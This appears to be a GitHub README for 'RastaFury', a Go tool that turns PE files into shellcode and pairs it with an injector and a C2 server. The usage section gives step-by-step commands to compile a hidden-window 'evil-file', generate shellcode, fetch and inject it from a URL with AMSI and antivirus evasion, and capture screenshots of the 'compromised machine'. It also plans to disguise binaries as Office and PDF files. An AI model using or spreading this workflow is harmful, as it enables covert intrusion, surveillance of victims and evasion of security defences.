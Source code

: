 # RastaFury

a tool for create ShellCodes from PE, based on go-donut([Binject](https://github.com/Binject/go-donut)); updated, improved and with new functionalities.
This tool works on Windows, Linux and MacOs, only need to change you compilation technique.

##Treefile
```powershell
C:.
│   .gitignore
│   go.mod
│   go.sum
│   LICENSE
│   main.go
│   README.md
│
│
├───c2server
│       helpers.go
│       router.go
│       server.go
│
├───cmd
│       c2server.go
│       injector.go
│       root.go
│       ShellCodeGenerator.go
│
└───donut
        donut.go
        donut_crypt.go
        donut_crypto_test.go
        loader_exe_x64.go
        loader_exe_x86.go
        types.go
        utils.go
```

##USAGE
**Note:** *this tool is intended to work in conjunction with the [ShellCodeInjector](https://github.com/RachidMoysePolania/ShellCodeInjector) library, in which you can find the default payload to be used with the *C2SERVER* command, which will be loaded into memory and executed by syscalls using kernel32.dll from windows (applying *AMSI* and *AV* evasion techniques).*
1. need to compile the payload (using default payload would be in this way): `go build -ldflags -H=windowsgui main.go` **Note:** *before compile the evil-file you need update the url and port to match with your c2server url and port.*
2. to generate a shellcode from a PE file use the following command: `shellcodegenerator -i <evil-file-path> -o <output-file-name>(by default is defaultc2client.bin)` this command is intended to use the default payload provided by ShellCodeInjector library at [here](https://github.com/RachidMoysePolania/ShellCodeInjector/blob/main/payload/main.go)
3. use the injector command, only need to provide the url (the complete url of where the shellcode to download is located): `injector -u "http://127.0.0.1:8000/defaultc2client.bin` and at the same time a new window must be opened, in order to listen to the c2 server.
4. listening to the c2server: `c2server -p <port-to-listen>(by default 8080)`

**Note:** *where the compiled shellcodegenerator binary is stored, screenshots of the compromised machine will be saved every interaction.*

##Example video

[!PocVideo](/media/PoC.mkv)

**Note:** *The next features are camuflage for our compiled binaries (word, excel, png, pdf, etc), graphic version and process injection* 

